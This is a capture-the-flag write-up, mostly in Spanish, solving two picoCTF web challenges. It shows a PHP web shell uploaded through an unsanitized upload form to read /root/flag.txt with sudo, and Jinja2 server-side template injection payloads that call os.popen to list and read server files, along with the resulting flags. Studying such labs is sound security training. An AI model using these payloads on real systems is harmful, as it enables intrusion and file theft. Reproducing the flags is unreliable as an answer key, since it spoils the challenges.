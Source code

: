 

## n0s4n1ty 1

A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory. You can access the web application here!

File upload was not sanitized
Whenever you get a shell on a remote machine, check `sudo -l`

1. Ingresamos al sitio web
2. Debemos subir un archivo ``php``, así que creamos uno llamada shell y dentro de él hacemos un código con el podamos acceder a la bandera
```
touch shell.php  

nano shell.php

<?php echo exec("sudo cat /root/flag.txt");?>
```

3. Subimos el archivo y accedemos a él modificando el link del sitio
```
http://standard-pizzas.picoctf.net:56264/uploads/shell.php
```

4. Obtenemos la bandera
```
picoCTF{wh47_c4n_u_d0_wPHP_4043cda3}
```



## SSTI1

I made a cool website where you can announce whatever you want! Try it out! I heard templating is a cool and modular way to build web apps! Check out my website [here](http://rescued-float.picoctf.net:59287/)!

Server Side Template Injection

1. Ingresamos al sitio web. Notamos que utiliza plantillas porque tiene un formulario de entrada para anuncios. Como el sitio usa Python, sospechamos que el motor de las plantillas podría ser Jinja2.
2. Enviamos ``{{3*3}}`` para saber si la entrada es validada como código, y obtenemos ``9``, lo que nos lo confirma.
3. Usamos ``{{.__class__}}`` y obtenemos ``class 'flask.config.Config'``, lo que nos confirma que podemos acceder a atributos internos de objetos en la plantilla, o sea que la plantilla es vulnerable a SSTI.
4. Accedemos a la configuración interna de Flask con ``{{Config.__class__}}`` al obtener ``class 'flask.config.Config'``
5. Probamos si el método ``int`` era accesible con  ``{{Config.__class__.__int__}}`` y obtenemos las variables globales con `{{config.__class__.__init__.__globals__}}`. Descubrimos que ``os`` estaba disponible. 
6. Listamos los archivos del servidor  
```
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}

output:`app.py`, `flag`, `requirements.txt`
```
7. Mostramos el contenido de flag
```
{{config.__class__.__init__.__globals__['os'].popen('cat flag').read()}} 

output: picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_753eca43}
```

